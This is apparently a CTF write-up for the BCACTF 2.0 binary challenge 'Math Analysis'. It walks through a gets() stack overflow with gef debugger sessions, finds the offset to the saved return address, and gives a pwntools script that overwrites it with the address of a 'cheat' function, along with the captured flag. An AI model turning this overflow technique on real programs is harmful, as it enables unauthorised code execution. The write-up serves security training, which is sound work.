 # Math Analysis

#### Category : binex
#### Points : 150 points (147 solves)
#### Author : Edward Feng

## Challenge
Congratulations, you've graduated from letters! Now, let's move on to numbers.

From the BCA Course Catalog:

> Analysis I includes linear and quadratic functions, polynomials, inequalities, functions, exponential and logarithmic functions, conic sections, and geometry.

That's a lot of cool stuff! I think you'll have tons of fun learning about functions in this class!

-   [analysis.c](https://objects.bcactf.com/bcactf2/analysis/analysis.c)
-   [analysis](https://objects.bcactf.com/bcactf2/analysis/analysis)
-   `nc bin.bcactf.com 49158`

## Solution
Looking at `analysis.c`, we see that there are 2 functions `main` and `cheat`. `cheat` is where our flag is at.

So we need to overflow the return address of the `main` function with the address of `cheat` function.

#### Overflowing the return address
We set a breakpoint just after the gets function and then try to overflow.
```bash
gef➤  b *0x0000000000401378
Breakpoint 2 at 0x401378
gef➤  info frame
Stack level 0, frame at 0x7fffffffe720:
 rip = 0x4012da in main; saved rip = 0x7ffff7e0dd0a
 Arglist at 0x7fffffffe710, args:
 Locals at 0x7fffffffe710, Previous frame's sp is 0x7fffffffe720
 Saved registers:
  rbp at 0x7fffffffe710, rip at 0x7fffffffe718
```

We notice that just after 76 characters, whatever we write goes into the `saved rip`
```bash
gef➤  run < <(python -c "print('A'*72+'123456')")
Starting program: /home/p1xel/Documents/ctf-writeups/2021/BCACTF 2.0/Math Analysis/analysis < <(python -c "print('A'*72+'123456')")
gef➤  c
Continuing.
It's math time, baby!
WOOO I love my numbers and functions and stuff!!
For example, here's a number: 4198998.
What do you think about that wonderful number?
>
gef➤  info frame
Stack level 0, frame at 0x7fffffffe720:
 rip = 0x401378 in main; saved rip = 0x363534333231
 Arglist at 0x7fffffffe710, args:
 Locals at 0x7fffffffe710, Previous frame's sp is 0x7fffffffe720
 Saved registers:
  rbp at 0x7fffffffe710, rip at 0x7fffffffe718
```

Carefully notice that we have successfully overflowed the value of `saved rip` to `0x363534333231` which is reverse of hex value of `123456`(due to endianness).

#### Finding the return address of cheat function
Now we have the power to overflow the return address with anything we want. As in this challenge we have to get the flag, we need to overflow the return address with the memory address of the `cheat` function.

To find this we do `disass cheat` in gdb/gef
```bash
gef➤  disass cheat
Dump of assembler code for function cheat:
   0x0000000000401256 <+0>:	endbr64
```
`cheat<+0>` is the memory address of the `cheat` function.

So we need the overflow the return address to `\x56\x12\x40\x00\x00\x00` (due to endianness)

#### Getting flag
With all that information, we can make our [get_flag.py](https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BCACTF%202.0/Math%20Analysis/get_flag.py) script
```python
#!/usr/bin/python3
from pwn import *
host = "bin.bcactf.com"
port = 49158
p = remote(host, port)
(p.recvuntil(b"wonderful number?"))
payload = "A"*72+'\x56\x12\x40\x00\x00\x00'
p.sendline(payload)
print(p.recvuntil("bcactf{")[-7:]+p.recvuntil("}"))
```
```bash
$ python3 get_flag.py
[+] Opening connection to bin.bcactf.com on port 49158: Done
b'bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}'
[*] Closed connection to bin.bcactf.com port 49158
```

flag : `bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}`